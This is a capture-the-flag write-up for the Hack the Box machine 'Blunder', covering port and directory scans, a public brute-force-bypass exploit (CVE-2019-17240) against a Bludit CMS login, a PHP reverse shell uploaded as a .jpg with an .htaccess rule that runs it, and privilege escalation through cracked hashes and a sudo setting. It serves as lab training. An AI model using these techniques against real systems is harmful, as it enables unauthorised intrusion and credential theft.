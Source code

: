 # Hack the Box - Blunder

# Reconnaissance

## NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.191 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.191
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http
Device type: general purpose|storage-misc|WAP
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X|3.X (98%), HP embedded (91%), Ubiquiti AirOS 5.X (89%), Ubiquiti embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3 cpe:/o:ubnt:airos:5.2.6 cpe:/h:ubnt:airmax_nanostation
Aggressive OS guesses: Linux 5.0 (98%), Linux 5.4 (93%), Linux 5.0 - 5.4 (93%), HP P2000 G3 NAS device (91%), Linux 4.15 - 5.6 (91%), Linux 5.3 - 5.4 (90%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Linux 5.1 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.49 seconds
```

```CSS
▶ nmap -sC -sV -p 21,80 10.10.10.191 -oN services.nmap

Nmap scan report for 10.10.10.191
Host is up (0.18s latency).

PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Blunder
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

---

## HTTP 80
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f70628d0-2b79-45bb-af4e-e683b063aa20)

---

## Content Discovery

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4075b582-c7ff-44a4-8767-fe978f218cc9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ae1ef991-a735-481f-ac4e-fbac773d364d)
  - `Bludit` admin login.

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c1979746-2805-426a-9824-c5f46d09a09b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3fe67c23-2588-4b30-82d4-0038d697ee17)
  - Probably the CMS is running an older version.
  - Potential username `fergus`.

---

## Brute-Force Credentials
  - A potential username `fergus` is found. Attempt to brute-force the password of this user for the CMS.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5486ce91-06ec-466f-b912-f9d4066152f0)
  - IP address gets banned after a few tries to brute-force the password.

### Brute-Force Mitigation Bypass
  - Search for bypassing brute-force protection.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7a9919b-9581-433c-b2e9-8670b9fb257c)

  - Google search.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d7d3f417-9f2d-42ab-910e-7430ef76d1fb)
  - Bludit Brute-force Mitigation Bypass (CVE-2019-17240)

  - https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1b80229c-69f6-4496-975e-6bf906725572)

```CSS
▶ python exploit.py -l http://10.10.10.191/admin/login.php -u users.txt -p passwords.txt
```
  - Valid password `RolandDeschain` found for the user `fergus`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8795423e-82bb-40fe-b9d5-c0caeb7668de)

Login with the credentials to the Bludit dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/46f720ab-ae30-4bb4-a20a-f1f07d6ddf4c)

- Login successful to Dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fb1a617-4f08-4d12-a236-b860b18cbea5)

---

  - Search for exploits.
  - Bludit RCE - https://github.com/bludit/bludit/issues/1081


![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/190c2241-d3d6-46b8-a6aa-f0e8dfbcf2a5)

  - Upload a php reverse shell to the target machine.
```CSS
▶ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```
  - Change the IP address and Port in the shell code.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f91738d7-102a-4418-b21f-3f3eddac9b06)
  - Change the extension of the shell file from `.php` to `.jpg`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2a4f8ae9-a014-4322-bcac-c0c22263a038)

  - Upload the shell and modify the `UUID` by intercepting the upload request in burpsuite.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dfcd390f-c71c-4994-8469-4a26e2c0d8cd)
  - Also upload the `htaccess` file to make the `jpg` executable as `php`.

Contents of `htaccess` file.
```CSS
RewriteEngine off
AddType application/x-httpd-php .jpg
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dea6a20e-07fa-490d-976b-9a3217c9ac52)
  - Browse to the location of the uploaded shell.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b470b90a-15ac-4c31-b032-f7802aafd02f)
  - Start a `netcat` listener.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/53d65f09-2a0b-4c90-b6e0-1a3cfec4bc76)

Upgrade shell to TTY
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/25c44c5d-61c4-42e6-b151-c7c772da3596)

  - Uploading `linpeas.sh`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/abaeecce-bd2b-454c-b2f8-5d4baaf153c4)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/25c2b341-5f95-4700-acf2-ca3b60184014)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bead94c5-d1c7-4bb2-a641-ff86f1d56f54)
```CSS
Username: Hugo
Password: faca404fd5c0a31cf1897b823c695c85cffeb98d
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/38669c8c-0d90-416d-bac8-ba5e87c3d283)
```CSS
Cracked Password: Password120
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bc4af429-04ab-4bb3-907e-a1cfe46b0eaf)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ce367232-cff3-49d1-8cee-1e29c348018f)

```CSS
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b892c926-361e-4cb7-a5db-cebb5e6149c8)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/446ccef4-6779-47cc-8a9c-88a77a953e31)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/220cf239-203f-44ab-8768-441cdb18ec03)
